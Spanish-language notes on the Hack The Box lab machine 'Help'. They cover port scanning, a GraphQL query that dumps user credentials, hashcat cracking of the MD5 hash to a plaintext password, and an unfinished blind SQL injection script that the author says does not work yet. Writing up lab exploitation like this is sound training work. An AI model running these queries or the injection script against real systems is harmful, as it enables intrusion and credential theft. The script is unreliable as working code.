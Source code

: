 # [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]
```shell
ping -c 1 10.10.10.121
nmap -p- --open -vvv -sS -Pn --min-rate 5000 -n 10.10.10.121 -oG allports
extractPorts allports
nmap -sVC -p22,80,3000 10.10.10.121 -oN target   
```

![[Help1.png]]

![[Help3.png]]
Nos muestra que esta el puerto 22 ssh abierto, el 80 de apache y el 3000 del servicio node.js

------------
# [[Whatweb-wappalyzer]]

```shell
nmap --script http-enum -p22,80,3000 10.10.10.121 -oN webScan    
whatweb http://10.10.10.121           
```

![[Help2.png]]
El script de nmap no dio ningun directorio y el whatweb nos informo que teniamos que agregar en el `/etc/hosts` el dominio de htb.help
![[Help 4.png]]

----
# [[FFUF]]

![[Help5.png]]
Al estar intentando enumerar a la pagina directamente no me daba ningun resultado, pero al intentar en help.htb arrojo el resultado del directorio `support`

![[Help6.png]]


curl -s -G http://help.htb:3000/graphql --data-urlencode 'query={user {username,password} }' | jq
*Parametros*
	`-G` Para hacer la peticion por GET
	`--data-urlencode` Envia la query urlencodeada
	`'query={user {username,password} }'` Pide que dumpee todos los usuarios y contraseñas
	`| jq` Muestra la respuesta en formato JSON

![[Help7.png]]
Nos da el usuario: helpme@helpme.com
Contraseña:  5d3c93182bb20f07b994a7f617e99cff                          |      Contraseña final: godhelpmeplz

##  [[Hashcat]]
```shell
hashcat -a 0 -m 0 "5d3c93182bb20f07b994a7f617e99cff" /usr/share/wordlists/rockyou.txt
```
![[Help8.png]]

El exploit para dumpear los datos con sqli esta en proceso, todavia no sirve
```python
#!/usr/bin/env python3

from pwn import *
import requests, signal, sys, time, string

#------CTRL +C ------
def def_handler(sig, frame):
    print("\n\n[!]Saliendo..\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)
#-------------------

# Variables Globales
characters = string.ascii_lowercase + ":;.,-_" + string.ascii_uppercase + string.digits
main_url = "http://help.htb/support/?v=view_tickets&action=ticket&param%5B%5D=4&param%5B%5D=attachment&param%5B%5D=1&param%5B%5D=6"

def sqli():
    data = ""
    p1 = log.progress("SQLI")
    p1.status("Iniciando ataque de inyeccion SQL")
    time.sleep(1)
    p2 = log.progress("Data")

    for position in range(1, 500):
        for character in characters:
            sqli_url = main_url + f" and substring((select group_concat(schema_name) from information_schema.schemata),{position},1)='{character}'-- -"
            r = requests.get(sqli_url)

            if r.status_code != 400:
                data += character
                p2.status(data)
                break




if __name__ == '__main__':
    sqli()
```








# Notas
##### Node.js
Es un **entorno de ejecución de JavaScript en el servidor**. Permite usar JavaScript fuera del navegador para crear aplicaciones del lado del servidor, como servidores web, APIs, bots, etc.

##### Para desconectar la vpn de HTB
```shell
sudo killall openvpn
```

##### Grep
*Parametros*
`-n` Indica la linea en la que se encontro el resultado
# Creditos
Writeup oficial de HTB